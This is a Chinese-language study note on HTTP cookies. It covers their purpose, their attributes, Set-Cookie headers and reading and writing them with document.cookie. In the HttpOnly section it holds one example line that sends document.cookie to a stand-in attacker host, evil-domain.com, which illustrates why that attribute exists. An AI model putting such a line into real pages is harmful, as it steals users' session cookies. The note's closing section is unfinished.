

# cookie

## 学习资料

- [mdn http cookie](https://developer.mozilla.org/en-US/docs/Web/HTTP/Cookies)
- [cookie百度百科](https://baike.baidu.com/item/cookie/1119?fr=aladdin)
- [阮一峰cookie](http://javascript.ruanyifeng.com/bom/cookie.html)


## 总结

**1. 为什么要有cookie？**

因为http是无状态的，即使用户登陆后，它还是不知道用户是否已经登录。服务端可以通过cookie保存用户信息到客户端，客户端发请求时总是会附带上这段信息。

**2. cookie的常用场景？**

- 对话管理：保存登录、购物车等信息
- 个性化：主题、字体、背景色
- 追踪：记录和分析用户行为

**3. cookie的特点？**

- 容量小、保存的个数有限制：不同浏览器不一样，一般是小于4kb，个数不超过30个。超出后cookie将被忽略，不会被设置。
- 域名、端口相同，则可以共享cookie，注意不要求协议相同。

**4. cookie的属性有哪些？**

- Expires：cookie的过期时间，过期后，浏览器将删除这个cookie。它的值是UTC格式。可以使用Date.prototype.toUTCString()转换格式。如果不设置设个属性或设为null，则是session cookie。另外浏览器是根据本地时间决定cookie是否过期，所以cookie没办法保证是在服务器指定时间过期。

```javascript
document.cookie = 'age=12;expires=' + new Date('2019-9-1')
// "age=12;expires=Sun Sep 01 2019 00:00:00 GMT+0800 (CST)"

// 要加时区才行
document.cookie = 'age=12;expires=' + new Date('2019-9-1').toUTCString()
// "age=12;expires=Sat, 31 Aug 2019 16:00:00 GMT"
```

- Max-age：从现在开始过多少秒后cookie过期，比如一年是`60 * 60 * 24 * 365`。如果同时指定了Expires和Max-Age，则Max-Age优先。如果没有指定，则是session cookie。
- Domain：指定发http请求时，哪些域名要附带这个cookie，如果没有指定，则默认是当前的一级域名，比如www.xx.com 会设为xx.com。所以访问xx.com的任何子域，http请求都会带这个cookie。如果Domain不属于当前域名，浏览器会拒绝这个cookie。当前发送 Cookie 的域名的一部分。
- Path：Path属性指定浏览器发出 HTTP 请求时，哪些路径要附带这个 Cookie。只要浏览器发现，Path属性是 HTTP 请求路径的开头一部分，就会在头信息里面带上这个 Cookie。比如，PATH属性是/，那么请求/docs路径也会包含该 Cookie。当然，前提是域名必须一致，是绝对路径。
- Secure：只能服务端写入。https下才会发送cookie。如果是http，浏览器会忽略从服务端发送来的Secure属性。该属性只是一个开关，不需要指定值。如果通信是 HTTPS 协议，该开关自动打开。
- HttpOnly：只能服务端写入。指定该 Cookie 无法通过 JavaScript 脚本拿到。通过document.cookie、XMLHttpRequest对象和Request API都获取不到，只有浏览器发出http请求时，才会带上该Cookie，该属性可以防止第三方恶意代码获取cookie。

```
(new Image()).src = "http://www.evil-domain.com/steal-cookie.php?cookie=" + document.cookie;
```

**5. 服务端操作cookie**

服务端要设置cookie，需要在http头里设置`Set-Cookie`字段，可以包含多个。

```
HTTP/1.0 200 OK
Content-type: text/html
Set-Cookie: yummy_cookie=choco
Set-Cookie: tasty_cookie=strawberry
```

除了值之外，还可以附加cookie的属性，一个Set-Cookie字段里面，可以同时包括多个属性，没有次序的要求。

```
Set-Cookie: <cookie-name>=<cookie-value>; Expires=<date>
Set-Cookie: <cookie-name>=<cookie-value>; Max-Age=<non-zero-digit>
Set-Cookie: <cookie-name>=<cookie-value>; Domain=<domain-value>
Set-Cookie: <cookie-name>=<cookie-value>; Path=<path-value>
Set-Cookie: <cookie-name>=<cookie-value>; Secure
Set-Cookie: <cookie-name>=<cookie-value>; HttpOnly

// 包括多个属性
Set-Cookie: id=a3fWa; Expires=Wed, 21 Oct 2015 07:28:00 GMT; Secure; HttpOnly
```

如果服务器想改变一个早先设置的 Cookie，必须同时满足四个条件：Cookie 的key、domain、path和secure都匹配。举例来说，如果原始的 Cookie 是用如下的Set-Cookie设置的。

```
Set-Cookie: key1=value1; domain=example.com; path=/blog
```

改变上面这个 Cookie 的值，就必须使用同样的Set-Cookie。

```
Set-Cookie: key1=value2; domain=example.com; path=/blog
```

只要有一个属性不同，就会生成一个全新的 Cookie，而不是替换掉原来那个 Cookie。
Set-Cookie: key1=value2; domain=example.com; path=/
上面的命令设置了一个全新的同名 Cookie，但是path属性不一样。下一次访问example.com/blog的时候，浏览器将向服务器发送两个同名的 Cookie。

```
Cookie: key1=value1; key1=value2
```

上面代码的两个 Cookie 是同名的，匹配越精确的 Cookie 排在越前面。


**6、客户端操作cookie**

客户端发送请求时，每次都会把cookie放在http头的Cookie字段中发送给服务端。

```
GET /sample_page.html HTTP/1.1
Host: www.example.org
Cookie: name=zhangsan1; age=12; Webstorm-dbb44fa0=e4a0db2b-0f80-47e9-acd1-4688f2e4ace9; optimizelyEndUserId=oeu1508308702253r0.1659170844255642;
```

服务端收到cookie后，无法知道cookie的过期时间，可cookie是哪个域名设置的，一级还是二级。

通过document.cookie可以获取cookie。注意，需要以服务器网页方式打开，不能以本地`file://`形式。

```javascript
document.cookie   // "name=zs;age=12"
```



设置cookie，注意等号两边不要有空格，而且必须对分号、逗号和空格进行转义（它们都不允许作为 Cookie 的值），这可以用encodeURIComponent方法做到。

document.cookie读写行为的差异（一次可以读出全部 Cookie，但是只能写入一个 Cookie），与 HTTP 协议的 Cookie 通信格式有关。浏览器向服务器发送 Cookie 的时候，Cookie字段是使用一行将所有 Cookie 全部发送；服务器向浏览器设置 Cookie 的时候，Set-Cookie字段是一行设置一个 Cookie。


```javascript
// 设置cookie
document.cookie = encodeURIComponent('username') + '=' + encodeURIComponent('jero')

// 删除cookie,通过设置过期时间
document.cookie = encodeURIComponent('username') + '=' +
                  encodeURIComponent('cover') + 
                  ';domain=ke.qq.com' + 
                  ';expires=' + new Date(0)  // 1970.1.1
```

cookie的属性一旦设置，就不能读取，比如上面代码中读取不到expires和domain。

可以使用`[js-cookie](https://github.com/js-cookie/js-cookie)`库来简单的进行操作。

**7、禁用cookie**

浏览器如果禁用了cookie，则不能再设置cookie，请求也不再向服务器发送cookie。查看cookie是否被禁用，可以通过`navigator.cookieEnabled`，它是只读的。

chrome禁用cookie的方法是，`设置 -> 内容设置 -> cookie`。禁用后`navigator.cookieEnabled`的返回值是false。此时之前设置的cookie不动，之后不能再操作cookie了（读取、新增、修改、删除都不行）。如果再启用cookie，之前设置的cookie还是有效的。

cookie分为临时cookie（session cookie）和持久cookie，没有设置过期时间的是临时cookie，浏览器关闭时自动清除。

3、domain可以设置成上级的域名，比如三级域名设置成2级域名
4、path，如果设置了path，只有在那个path才有这个cookie，其它path没有
5、在请求数据时，cookie会自动带上
6、cookie出现的原因是http是无状态的，不知道用户是否登录。
7、客户端和服务端都能读取和操作cookie。

**8. 什么是签名cookie？**

## 深入

- [http state management mechanism](https://tools.ietf.org/html/rfc6265)
